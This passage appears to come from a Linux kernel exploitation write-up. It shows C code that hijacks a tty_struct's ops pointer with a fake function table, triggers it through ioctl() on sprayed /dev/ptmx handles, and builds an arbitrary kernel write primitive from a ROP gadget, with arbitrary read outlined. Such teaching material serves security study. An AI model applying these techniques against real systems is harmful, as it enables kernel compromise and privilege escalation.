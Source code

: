 Next using the bug we overwrite the `*ops` member of the `tty_struct`.

```c
char buf[0x500];
...
// Let p be a pointer to fake function table
long long* p = (long long*)&buf;

// We identified that the function that gets called is 12th element in the function table
p[12] = 0x4141414141414141;

// Location of *ops at 0x418
*(long long*)&buf[0x418] = address_of_buf_in_memory;
write(fd, buf, 0x500);
```

Now the last step is to trigger the code that executes the faked function. This can be achieved by calling `ioctl()` on the `/dev/ptmx` handle.

```c
for (int i = 0; i < 100; i++) {
    ioctl(spray[i], rcx, rdx);
}
```

This approach enables us to also pass values into `rcx` and `rdx` registers before jumping to our arbitrary address `0x4141414141414141`.

## Crafting other primitives

This way we can call any function we want but it can also be used to craft AAR (Arbitrary Address Read) and AAW (Arbitrary Address Write) primitive. By finding ROP gadgets that use `rcx` and `rdx` registers to write to memory.

Below is an example of arbitrary write for 32 bits (4 bytes).

```c
void AAW32(long long addr, unsigned int val) {
    long long* p = (long long*)&buf;
    // mov dword ptr [rdx], ecx ; ret
    p[12] = 0xffffffff8101083d;

    *(long long*)&buf[0x418] = g_buf;
    write(fd, buf, 0x500);

    for (int i = 0; i < 100; i++) {
        ioctl(spray[i], val, addr);
    }
}
```

This function can be called as many times as we need to overwrite anything in kernel-space memory.

The same approach can be used to achieve AAR. Because accessing memory takes more time and we would use this function multiple times (for scanning memory space) we can cache file descriptor to speed things up.

